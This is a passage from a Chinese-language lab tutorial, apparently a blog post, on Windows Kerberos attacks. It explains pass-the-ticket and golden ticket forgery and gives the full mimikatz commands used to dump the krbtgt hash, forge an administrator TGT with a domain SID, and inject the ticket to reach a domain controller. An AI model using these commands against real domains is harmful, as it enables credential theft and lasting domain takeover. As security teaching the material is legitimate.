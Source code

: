 ![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBlHf8qID8OUPOdVMFMPerR9bDAnHVuAqQcHMiajrNaSgURgNpPD8hKiaUg/640?wx_fmt=png)

2. 导入票据

```
kerberos::ptt TGT_mars2@DRUNKMARS.COM_krbtgt~Drunkmars.com@DRUNKMARS.COM.kirbi
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBldHkIwZq3sp4kibDCG2cThCRpWIsMK7gdfetv1EmInCP2r05YeYqRcZQ/640?wx_fmt=png)

3. 查看票据并访问域控

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBlTGKINlwhUdt9skJskfnSm3PHcaJxg9WJiaVt0pF9kwrMQtrfSwmxkyg/640?wx_fmt=png)

Golden ticket
-------------

> `Golden ticket`的作用是可以生成任意用户的 tgt, 那么问题就来了, 是什么条件能够让他生成任意用户的 tgt 呢？还得要看 kerberos 认证的过程, 在 windows 认证过程中，客户端将自己的信息发送给 KDC, 然后 KDC 使用 krbtgt 用户密码的 hash 作为密钥进行加密，生成 TGT。

那么如果获取到了`krbtgt`的密码 hash 值，就可以伪造任意 tgt 了。**因为 krbtgt 只有域控制器上面才有，所以使用黄金凭据意味着你之前拿到过域控制器的权限, 黄金凭据可以理解为一个后门**

伪造黄金凭据需要具备下面条件：

•krbtgt 用户的 hash(就意味着你已经有域控制器权限了)• 域名称 • 域的 SID 值 • 要伪造的用户名

先登录域控制器，dump krbtgt 用户的 hash 值, 获取域 sid

```
privilege::debuglsadump::lsa /patch
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBl4R4XgvDPYEyNMnicXIg0czaFanxY9G6c1OmD50NBmOME9kcZicvD8ljA/640?wx_fmt=png)

登录普通域用户生成 TGT 凭证

```
kerberos::golden /user:administrator /domain:Drunkmars.com /sid:S-1-5-21-652679085-3170934373-4288938398-1107 /krbtgt:c1833c0783cfd81d3548dd89b017c99a /ticket:gold.kirbi
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBlr6rtaDsjvqLiaUxhKkiaP2ibLiceGQdsIH2maLnvRf7KYjtAnvm5U2klYA/640?wx_fmt=png)

注入黄金票据并访问域控

```
kerberos::ptt gold.kirbi
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBlKBjF3HlEJ9pAt8wkNAItxiacvwevPks9qRAia6PVxAicLNckgCLd5spBg/640?wx_fmt=png)

如果开启`rpc服务`则可以用`winexec.vbs`直接连接，这里我的域控没有开启`rpc服务`，所以这里连接没有成功

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBllHPInf9rzQREnmibG5EkGX41Btn1WnXBxJycbcWCUicTS2s3icZzCDIZg/640?wx_fmt=png)

Sliver ticket
-------------
